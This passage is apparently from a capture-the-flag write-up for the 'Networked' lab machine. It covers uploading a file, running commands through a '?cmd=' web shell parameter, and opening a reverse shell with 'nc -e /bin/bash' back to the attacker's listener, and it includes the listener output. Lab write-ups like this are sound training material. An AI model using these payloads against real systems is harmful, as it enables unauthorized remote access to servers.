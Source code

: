 10. Upload file and look this path

![path.PNG](/assets/Machines/Easy/Networked/path.PNG)


11. Access to path and try to execute a command
* To do: `http://<Machine's IP>/<Path image>?cmd=whoami`
* Press `Ctrl` + `u`

![output.PNG](/assets/Machines/Easy/Networked/output.PNG)

* We look output of command execute


12. Get reverse shell with **nc** and listen in your machine 
* To do: `http://<Machine's IP>/<Path image>?cmd=nc -e /bin/bash <tun0 IP> <Port>`

**Output**
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Networked]
└─| nc -lvnp 445 
listening on [any] 445 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.146] 38520
whoami
apache
```
